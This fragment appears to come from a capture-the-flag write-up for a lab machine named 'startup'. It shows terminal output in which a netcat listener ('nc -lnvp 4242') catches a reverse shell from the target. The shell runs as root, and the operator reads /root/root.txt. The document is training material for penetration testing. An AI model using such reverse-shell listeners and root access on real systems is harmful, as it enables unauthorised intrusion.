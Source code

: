 └─# nc -lnvp 4242                                                                           
listening on [any] 4242 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.171.61] 49342
bash: cannot set terminal process group (2909): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@startup:~# cat /root/root.txt
cat /root/root.txt

```